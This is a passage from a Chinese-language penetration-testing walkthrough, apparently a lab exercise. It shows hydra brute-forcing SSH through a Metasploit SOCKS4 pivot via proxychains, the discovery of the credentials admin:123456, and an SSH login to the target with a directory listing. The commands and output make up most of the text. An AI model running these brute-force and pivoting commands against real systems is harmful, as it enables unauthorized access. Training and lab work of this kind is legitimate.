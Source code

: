 然后用hydra本地用msf模块开启的1080端口的sock4代理尝试爆破:

```
root@kali:~# proxychains hydra 7.7.7.20 ssh -s 22 -L /tmp/user.txt -P top100.txt -t 4
ProxyChains-3.1 (http://proxychains.sf.net)
Hydra v8.2 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting 
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 4 tasks per 1 server, overall 64 tasks, 20 login tries (l:2/p:10), ~0 tries per task
[DATA] attacking service ssh on port 22
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-7.7.7.20:22-|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK&lt;&gt;&lt;&gt;-OK&lt;&gt;&lt;&gt;-OK&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK
[22][ssh] host: 7.7.7.20   login: admin   password: 123456
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished
root@kali:~#
```

发现有可用帐户密码admin:123456,然后再用sock4代理ssh登录:

```
root@kali:~# proxychains ssh admin@7.7.7.20
ProxyChains-3.1 (http://proxychains.sf.net)
|D-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK
The authenticity of host '7.7.7.20 (7.7.7.20)' can't be established.
ECDSA key fingerprint is SHA256:Rcz2KrPF3BTo16Ng1kET91ycbr9c8vOkZcZ6b4VawMQ.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '7.7.7.20' (ECDSA) to the list of known hosts.
admin@7.7.7.20's password: 
bvshell:/C/Documents and Settings/All Users$ pwd
/C/Documents and Settings/All Users
bvshell:/C/Documents and Settings/All Users$ dir
2016-12-24  21:32          &lt;DIR&gt; Application Data
2016-12-25  06:16          &lt;DIR&gt; Desktop
2016-12-24  18:36          &lt;DIR&gt; Documents
2016-12-24  18:37          &lt;DIR&gt; DRM
2016-12-24  21:32          &lt;DIR&gt; Favorites
2016-12-24  18:38          &lt;DIR&gt; Start Menu
2016-12-24  21:32          &lt;DIR&gt; Templates
      0 Files                  0 bytes
      7 Directories
bvshell:/C/Documents and Settings/All Users$
```
